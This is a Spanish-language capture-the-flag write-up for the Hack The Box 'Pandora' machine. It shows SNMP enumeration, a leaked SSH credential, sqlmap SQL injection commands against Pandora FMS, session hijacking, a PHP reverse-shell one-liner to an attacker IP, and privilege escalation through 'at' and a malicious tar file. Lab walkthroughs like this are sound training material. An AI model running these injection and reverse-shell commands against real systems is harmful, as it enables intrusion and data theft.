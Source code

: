 ```yaml
---
title: Pandora HtB
published: True
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#desarrollo">Desarrollo</a>



Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```
Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de este <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">CVE</a>, no se pudo establecer una shell. Pero si fue posible hacer algo con este  <a href="https://shells.systems/pandorafms-v7-0ng-authenticated-remote-code-execution-cve-2019-20224/">articulo</a> Asi que copie el URL y lo pegue para obtener mi cockie de admin, y funciono. Ahora que somos admin del FMS, termine en el archivo de administrador del dashboard.

Intente cargar un shell de php, pero no funciono. Asi que cargue una webshell y usandola para obtener una shell.

```sc
php -r '$sock=fsockopen("10.10.14.135",9602);exec("/bin/sh -i<&3>&32>&3");'
``` 
Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hayq ue revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.


